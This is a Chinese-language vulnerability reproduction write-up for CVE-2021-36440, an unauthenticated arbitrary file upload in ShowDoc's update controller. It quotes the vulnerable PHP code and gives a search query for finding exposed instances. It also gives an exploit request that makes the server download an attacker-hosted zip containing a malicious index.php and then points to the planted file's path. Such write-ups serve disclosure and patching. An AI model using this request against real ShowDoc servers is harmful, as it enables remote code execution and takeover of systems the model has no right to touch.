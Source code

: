 # ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

<a-checkbox checked>ShowDoc < V2.9.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ShowDoc"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638708274023-ae45bb10-901c-483e-b3df-0a5cfd52da81.png)

文件路径`server/Application/Api/Controller/AdminUpdateController.class.php`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638708347572-cf80a24d-71bb-4c3c-8676-201900ffd87e.png)

```php
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```php
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包, index.php 为恶意文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638708478505-107a09b3-7d01-40a6-86ed-9a4822bda800.png)

发送请求包

```php
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1638708837279-80c1936d-40d8-4687-a7ce-8da4747e5d15.png)

访问上传的文件页面 `Public/Uploads/update/web/index.php`